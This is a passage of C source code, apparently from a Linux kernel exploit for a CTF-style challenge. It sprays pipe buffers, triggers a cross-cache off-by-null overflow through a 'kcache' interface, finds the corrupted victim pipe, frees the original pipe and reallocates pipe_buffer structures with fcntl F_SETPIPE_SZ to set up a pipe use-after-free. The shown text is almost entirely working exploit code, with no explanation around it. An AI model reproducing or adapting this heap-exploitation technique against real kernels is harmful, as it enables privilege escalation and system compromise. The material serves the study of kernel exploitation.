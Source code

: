 ```c
    puts("[*] allocating pipe pages...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        write(pipe_fd[i][1], "arttnba3", 8);
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], "arttnba3", 8);
        write(pipe_fd[i][1], "arttnba3", 8);  /* prevent pipe_release() */
    }

    /* try to trigger cross-cache overflow */
    puts("[*] trigerring cross-cache off-by-null...");
    for (int i = 0; i < KCACHE_NUM; i++) {
        kcache_append(i, KCACHE_SIZE - 8, buf);
    }

    /* checking for cross-cache overflow */
    puts("[*] checking for corruption...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        char a3_str[0x10];
        int nr;

        memset(a3_str, '\0', sizeof(a3_str));
        read(pipe_fd[i][0], a3_str, 8);
        read(pipe_fd[i][0], &nr, sizeof(int));
        if (!strcmp(a3_str, "arttnba3") && nr != i) {
            orig_pid = nr;
            victim_pid = i;
            printf("\033[32m\033[1m[+] Found victim: \033[0m%d "
                   "\033[32m\033[1m, orig: \033[0m%d\n\n", 
                   victim_pid, orig_pid);
            break;
        }
    }

    if (victim_pid == -1) {
        err_exit("FAILED to corrupt pipe_buffer!");
    }
}

void corrupting_second_level_pipe_for_pipe_uaf(void)
{
    size_t buf[0x1000];
    size_t snd_pipe_sz = 0x1000 * (SND_PIPE_BUF_SZ/sizeof(struct pipe_buffer));

    memset(buf, '\0', sizeof(buf));

    /* let the page's ptr at pipe_buffer */
    write(pipe_fd[victim_pid][1], buf, SND_PIPE_BUF_SZ*2 - 24 - 3*sizeof(int));

    /* free orignal pipe's page */
    puts("[*] free original pipe...");
    close(pipe_fd[orig_pid][0]);
    close(pipe_fd[orig_pid][1]);

    /* try to rehit victim page by reallocating pipe_buffer */
    puts("[*] fcntl() to set the pipe_buffer on victim page...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid) {
            continue;
        }

        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, snd_pipe_sz) < 0) {
```
